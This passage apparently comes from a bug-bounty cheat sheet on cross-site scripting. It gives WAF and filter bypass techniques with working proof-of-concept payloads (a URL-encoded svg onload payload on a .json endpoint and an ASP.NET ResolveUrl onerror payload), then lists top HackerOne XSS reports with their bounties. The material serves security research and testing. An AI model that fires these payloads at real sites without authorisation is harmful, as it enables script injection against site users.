 ### Some Bypasses Techniques

* **XSS for `.JSON` endpoint \[ bypass (`.html`)and `WAF` ]**
  *   `“resource Type” : “silent:nonexitsting”` Function

      ![https://user-images.githubusercontent.com/108616378/219940178-c7988e77-c51a-4e79-add2-e0b192d92e02.png](https://user-images.githubusercontent.com/108616378/219940178-c7988e77-c51a-4e79-add2-e0b192d92e02.png)
  * Use `url-encoded` payload with .`htm` extension and `//` for break directory block too , So the server so the server didn’t understand my request fully
  * POC: `https://www.redacted.com/etc/designs/redacted.json//%3Csvg%20onload=alert(document.domain)%3E.html`
* **XSS in meta tag**
  * [XSS bypass using META tag in realestate.postnl.nl | by Prial Islam Khan | InfoSec Write-ups (infosecwriteups.com)](https://infosecwriteups.com/xss-bypass-using-meta-tag-in-realestate-postnl-nl-32db25db7308)
  *   A decade-old \`ResolveUrl XSS\` bug is still present in many [http://ASP.NET](https://t.co/fJYUdsk50c) apps. I randomly found this bug in a very famous app.  \
      Try in login pages, redirects, forms & dynamic URL construction (`~/images/`). Payload: `/(A(%22onerror='alert%60123%60'test))/`\
      Credits:  [https://x.com/nav1n0x/status/1799384973407031565](https://x.com/nav1n0x/status/1799384973407031565)

      <figure><img src="../.gitbook/assets/image (223).png" alt=""><figcaption></figcaption></figure>

### [Mind Map](https://xmind.ai/share/CTAMcPfH?xid=O720Am6q)

## Top XSS reports from HackerOne:

1. [Bypass for #488147 enables stored XSS on](https://hackerone.com/reports/510152) [https://paypal.com/signin](https://paypal.com/signin) again to PayPal - 2530 upvotes, $20000
2. [Stored XSS on](https://hackerone.com/reports/488147) [https://paypal.com/signin](https://paypal.com/signin) via cache poisoning to PayPal - 646 upvotes, $18900
3. [Reflected XSS on](https://hackerone.com/reports/846338) [https://www.glassdoor.com/employers/sem-dual-lp/](https://www.glassdoor.com/employers/sem-dual-lp/) to Glassdoor - 632 upvotes, $1000
4. [Stored XSS in Wiki pages](https://hackerone.com/reports/526325) to GitLab - 595 upvotes, $4500
5. [Stored XSS on imgur profile](https://hackerone.com/reports/484434) to Imgur - 591 upvotes, $650
6. [Reflected XSS in OAUTH2 login flow](https://hackerone.com/reports/697099) to LINE - 471 upvotes, $1989
7. [XSS in steam react chat client](https://hackerone.com/reports/409850) to Valve - 453 upvotes, $7500
8. [Cross-Site-Scripting on www.tiktok.com and m.tiktok.com leading to Data Exfiltration](https://hackerone.com/reports/968082) to TikTok - 449 upvotes, $3860
9. [XSS vulnerable parameter in a location hash](https://hackerone.com/reports/146336) to Slack - 440 upvotes, $1100
10. [One-click account hijack for anyone using Apple sign-in with Reddit, due to response-type switch + leaking href to XSS on www.redditmedia.com](https://hackerone.com/reports/1567186) to Reddit - 419 upvotes, $10000
11. [Panorama UI XSS leads to Remote Code Execution via Kick/Disconnect Message](https://hackerone.com/reports/631956) to Valve - 407 upvotes, $9000
12. [Blind XSS on image upload](https://hackerone.com/reports/1010466) to CS Money - 407 upvotes, $1000
13. [Stored XSS Vulnerability](https://hackerone.com/reports/643908) to WordPress - 394 upvotes, $500
14. [Reflected XSS and sensitive data exposure, including payment details, on lioncityrentals.com.sg](https://hackerone.com/reports/340431) to Uber - 369 upvotes, $4000
15. [Reflected XSS on www.hackerone.com and resources.hackerone.com](https://hackerone.com/reports/840759) to HackerOne - 355 upvotes, $500
16. [Stored XSS in wordpress.com](https://hackerone.com/reports/733248) to Automattic - 348 upvotes, $650
17. [HEY.com email stored XSS](https://hackerone.com/reports/982291) to Basecamp - 345 upvotes, $5000
18. [Reflected XSS in TikTok endpoints](https://hackerone.com/reports/1350887) to TikTok - 344 upvotes, $4500